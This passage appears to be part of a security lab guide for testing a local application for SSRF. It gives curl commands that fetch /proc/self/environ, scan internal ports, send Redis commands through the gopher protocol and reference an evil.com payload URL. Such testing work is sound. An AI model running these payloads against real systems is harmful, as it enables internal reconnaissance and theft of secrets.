 ```bash
# Test for reflected content (potential XSS)
curl -X POST http://localhost:5000/analyze -d "target_url=http://evil.com/xss-payload"

# Test for SSRF + Local File Inclusion
curl -X POST http://localhost:5000/fetch -d "url=file:///proc/self/environ"
```

## 🔧 Testing with Burp Suite

### 4.1 Intercepting Requests
1. Configure browser to use Burp proxy
2. Navigate to vulnerable endpoints
3. Capture and modify requests in Burp Repeater

### 4.2 Automated Testing
Use Burp's SSRF detection extensions:
- **Collaborator** for out-of-band testing
- **Intruder** for payload fuzzing
- **Scanner** for automated SSRF detection

## 🎯 Specific Test Cases

### Test Case 1: Basic Internal Access
```bash
# Objective: Access the application's own health endpoint
curl -X POST http://localhost:5000/fetch -d "url=http://localhost:5000/health"

# Expected: Should return health check information
# Impact: Confirms SSRF vulnerability exists
```

### Test Case 2: Port Scanning
```bash
# Objective: Discover internal services
for port in 22 80 443 3306 5432 6379 8080; do
  echo "Testing port $port:"
  curl -s -X POST http://localhost:5000/validate -d "link=http://127.0.0.1:$port" | grep -E "(accessible|Status Code)"
done
```

### Test Case 3: Protocol Smuggling
```bash
# Objective: Test different protocols
curl -X POST http://localhost:5000/fetch -d "url=gopher://127.0.0.1:6379/_*1%0d%0a$4%0d%0ainfo%0d%0a"

# Expected: Potential Redis interaction via Gopher protocol
```
